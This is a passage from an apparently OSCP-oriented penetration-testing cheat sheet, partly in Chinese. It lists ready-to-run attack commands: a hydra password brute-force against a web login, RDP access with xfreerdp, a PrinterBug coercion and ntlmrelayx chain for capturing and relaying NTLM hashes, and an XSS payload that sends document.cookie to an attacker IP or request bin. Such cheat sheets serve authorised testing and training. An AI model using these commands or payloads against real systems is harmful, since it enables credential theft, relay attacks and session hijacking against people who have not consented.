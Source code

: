 ```
hydra -l admin -P /usr/share/wordlists/rockyou.txt X.X.X.X http-post-form "/URL/Login:User=^USER&password=^PASS:F=<String indicating attempt has failed>" -I
```

### **4. RDP连接?**

> transport_connect_tls:freerdp_set_last_error_ex ERRCONNECT_TLS_CONNECT_FAILED [0x00020008]

```
xfreerdp /u:user /p:'password' /v:X.X.X.X /d:domain /sec:rdp
# OR, if having a different connect error, also try:
xfreerdp /u:user /p:'password' /v:X.X.X.X /d:domain /sec:tls
# and if you want to have files and clipboard there:
xfreerdp +clipboard /u:user /p:'password' /v:X.X.X.X /d:domain /sec:<whatever> /drive:<absolute path to your local folder>,/
```

### **5.获取更多hashes?**

参考 [hack tricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/printers-spooler-service-abuse).

```
# <https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py>
rcpdump.py <IP>|grep MS-RPRN
# <https://github.com/NotMedic/NetNTLMtoSilverTicket>
python dementor.py -u Guest -p ''  <target> <responder>
```

你也可以使用 [ntlmrelay](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py)转发这些哈希值，因为破解它们可能并不有趣:

```
# list machines with SMB
nmap -p139;445 -T5 <subnet>/24 -oG - | awk '/Up$/{print $2}' > smb.lst
# shortlist IP's with spooler active (might be bugged, I haven't retested it and I typed it from what I recall)
while read ip; do rcpdump.py $ip|grep -q MS-RPRN && echo $ip >> spooler.lst || :;done < smb.lst
# generate a list of targets without SMB signing
crackmapexec smb <subnet> --genrelay-list > targets.lst
# start relay server
ntlmrelayx.py -l loot -smb2support -socks -tf targets.lst
# force NetNTLMv2 authentication to your relay (need valid credentials to perform the attack)
while read ip; do python dementor.py -u user -p 'password' $ip <responder ip>;done < spooler.lst
# profit
nc localhost <port open by ntlmrelayx>
```

**Note:**  这个超出OSCP的考试范围.

### **6. 获取cookies?**

```
<script>document.write("<img src='http://<IP> or <request bin>'"+document.cookie+"');</script>
```
